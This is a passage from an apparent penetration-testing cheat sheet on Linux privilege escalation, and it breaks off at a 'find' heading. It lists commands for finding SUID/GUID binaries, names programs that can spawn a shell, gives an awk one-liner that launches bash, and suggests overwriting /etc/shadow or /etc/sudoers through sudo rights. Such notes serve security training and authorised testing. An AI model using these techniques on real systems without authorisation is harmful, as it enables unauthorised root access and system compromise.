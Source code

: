 Check the netstat and compare it with the nmap-scan you did from the outside. Do you find more services available from the inside?

```
# Linux
netstat -anlp
netstat -ano
```

### Suid and Guid Misconfiguration

When a binary with suid permission is run it is run as another user, and therefore with the other users privileges. It could be root, or just another user. If the suid-bit is set on a program that can spawn a shell or in another way be abuse we could use that to escalate our privileges.

For example, these are some programs that can be used to spawn a shell:

```
nmap
vim
less
more
```

If these programs have suid-bit set we can use them to escalate privileges too. For more of these and how to use the see the next section about abusing sudo-rights:

```
nano
cp
mv
find
```

**Find suid and guid files**

```
#Find SUID
find / -perm -u=s -type f 2>/dev/null

#Find GUID
find / -perm -g=s -type f 2>/dev/null
```

### Abusing sudo-rights

If you have a limited shell that has access to some programs using `sudo` you might be able to escalate your privileges with. Any program that can write or overwrite can be used. For example, if you have sudo-rights to `cp` you can overwrite `/etc/shadow` or `/etc/sudoers` with your own malicious file.

##### awk

```
awk 'BEGIN {system("/bin/bash")}'
```

##### find
